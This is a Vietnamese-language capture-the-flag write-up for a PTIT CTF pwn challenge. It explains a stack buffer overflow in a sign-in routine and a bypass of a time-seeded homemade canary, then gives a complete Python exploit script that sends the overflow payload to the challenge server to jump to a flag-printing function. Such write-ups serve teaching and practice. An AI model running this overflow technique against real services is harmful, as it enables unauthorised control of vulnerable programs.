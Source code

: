 ### PWN
> nc 203.162.88.114 44444
>[Binary and Source](https://github.com/bigbearattt/PTITCTF/raw/master/pwn/src.zip)

### Solve

Nhìn vào source code C thì t thấy có hàm `flag()` là in ra flag mà luồng thực thi của chương trình không hè có luồng nào chạy đến hàm này.
Chính vì thế có thể đoán được là t phải Overflow để tràn đến địa chỉ hàm flag.
![](pwn1.png)
Địa chỉ của hàm `flag()` t sử dụng `IDA Pro` để xem thì có là `66666835`
![](pwn8.png)
Nhìn qua `cấu trúc dữ liệu của biến` và một vài `biến toàn cục`:
![](pnw2.png)
Với dữ liệu nêu trên thì ta thấy trong luồng có 2 hàm sử dụng các hàm `read()` là có thể sử dụng để overflow là `signup()` và `signin()`
Tuy nhiên `signup()` các hàm `read()` là an toàn vì giá trị tham số thứ 2 bằng với kích thước của biến.
![](pwn3.png)
Còn hàm `signin()` hàm `read()` ở đây có vẻ không an toàn vì độ dài tham số thứ 2 lớn hơn kích thước biến.
![](pwn4.png)
Sử dụng IDA ta có:
![](pwn7.png)
Biến `pas: bp-10Ch` and `use: bp-8Ch` and `canary = bp-Ch`
> =>> qua đó suy ra có thể Overflow hàm `read(0,ME.usn,255);` vì `0x8C = 140`
Tuy nhiên nếu overflow ở đây thì sẽ bị tràn qua giá trị của biến `canary` mà nếu `canary != tmp` thì chương trình sẽ thực hiện `exit(1)`
![](pwn5.png)
> Câu hỏi đặt ra là làm thế nào để overflow mà vẫn có thể giữ lại giá trị cho biến `canary` thế nên ta phải tính được giá trị của `tmp`
![](pwn6.png)
`tmp` được tính bằng hàm `srand()` với `time(NULL)` trong `C`.
Với python ta `import` thư viện của `C` vào: `from ctypes import CDLL` and `libc = CDLL('libc.so.6')`
```py
now = int(floor(time.time()))
tm = ''
libc.srand(now)
c = 0
while c<4:
  ch =  libc.rand()%0x7f
	if ch >0x20 and ch <0x7f:
	  tm += chr(ch)
		c += 1
```
Ngoài ra thì có thể tính toán các giá trị cần gửi lần lượt là như sau:
```
sent1 = "2\n"
sent2 = "usertrollgame\n"
sent3 = "passwordtrollgame\n"
sent4 = "passwordtrollgame\n"
sent5 = "1\n"
sent6 = ????
sent7 = "trollpassword\n"
```
Nhiệm vụ là phải tim được `sent6` và với những gì đã có ở trên thì t có thể tính ra được:
```py
sent6 = "a"*10+"\00"*118+"tmp"+"\x00"*12+"\x35\x68\x66\x66\n"
```
Sau đây là code hoàn chỉnh:

```py
from math import *
import socket
import time
from ctypes import CDLL
libc = CDLL('libc.so.6')
host = '203.162.88.114'
port = 44444
sent1 = "2\n"
sent2 = "usertrollgame\n"
sent3 = "passwordtrollgame\n"
sent4 = "passwordtrollgame\n"
sent5 = "1\n"
sent7 = "trollpassword\n"

def re(a):
	a = '0000000'+a.encode('hex')
	a = a[-8:]
	b = ''
	for i in range(4):
		b = a[i*2:i*2+2] + b
	return b.decode('hex')

def pwn():
	sent6 = "a"*10+"\00"*118+"tmp"+"\x00"*12+"\x35\x68\x66\x66\n"
	s = socket.socket()
	s.connect((host,port))
	now = int(floor(time.time()))
	tm = ''
	libc.srand(now)
	c = 0
	while c<4:
		ch =  libc.rand()%0x7f
		if ch >0x20 and ch <0x7f:
			tm += chr(ch)
			c += 1
	sent6 = sent6.replace('tmp',tm)
	s.recv(1024)
	s.recv(1024)
	s.send(sent1)
	s.recv(1024)
	s.send(sent2)
	s.recv(1024)
	s.send(sent3)
	s.recv(1024)
	s.send(sent4)
	s.recv(1024)
	s.send(sent5)
	s.recv(1024)
	s.send(sent6)
	s.recv(1024)
	s.send(sent7)
	return s.recv(1024)	

def main():
	while True:
		rs = pwn()
		if "DETECT BOF" in rs:
			continue
		else: 
			print rs
			break

if __name__=="__main__":
	main()
```

